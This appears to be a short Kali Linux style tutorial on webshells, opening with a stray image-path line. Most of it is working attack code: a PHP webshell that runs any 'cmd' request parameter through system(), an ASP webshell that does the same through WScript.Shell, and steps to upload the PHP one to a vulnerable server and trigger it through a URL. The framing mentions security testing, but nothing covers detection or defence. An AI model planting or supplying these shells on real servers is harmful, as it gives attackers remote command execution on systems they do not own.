 # webshells
Webshells are scripts that allow remote access and management of a web server. They are often used for legitimate administration tasks but can also be exploited by attackers. In Kali Linux, various webshells can be deployed to test web application security.

### Common Webshells

1. **PHP Webshells**: Simple PHP scripts that provide a web interface to execute commands.
2. **ASP Webshells**: Similar to PHP but designed for ASP.NET environments.
3. **Python Webshells**: Utilizes Python scripts for executing commands.

### Usage

#### Example 1: Simple PHP Webshell

1. **Create a Webshell**:
   Save the following PHP code as `webshell.php`:

   ```php
   <?php
   if (isset($_REQUEST['cmd'])) {
       system($_REQUEST['cmd']);
   }
   ?>
   ```

2. **Upload the Webshell**:
   Upload `webshell.php` to a vulnerable web server.

3. **Access the Webshell**:
   Visit the webshell in your browser:

   ```
   http://target.com/webshell.php?cmd=ls
   ```

4. **Output**:
   The output will be the result of the command executed on the server, like a directory listing.

#### Example 2: ASP Webshell

1. **Create an ASP Webshell**:
   Save the following code as `webshell.asp`:

   ```asp
   <% 
   If Request("cmd") <> "" Then 
       Set objShell = CreateObject("WScript.Shell") 
       strCommand = Request("cmd") 
       Set objExec = objShell.Exec(strCommand) 
       Response.Write(objExec.StdOut.ReadAll) 
   End If 
   %>
   ```
